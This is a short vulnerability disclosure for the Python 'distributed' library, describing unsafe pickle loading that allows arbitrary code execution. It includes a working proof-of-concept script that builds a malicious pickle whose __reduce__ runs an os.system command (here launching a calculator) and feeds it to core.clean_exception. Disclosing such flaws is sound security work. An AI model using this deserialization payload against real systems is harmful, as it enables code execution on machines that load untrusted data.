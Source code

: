 # Description
 distributed is a library for distributed computation.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install distributed')
from distributed import core
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
core.clean_exception(dumps,dumps)
```
* `pip3 install distributed`
* `python3 exploit.py`
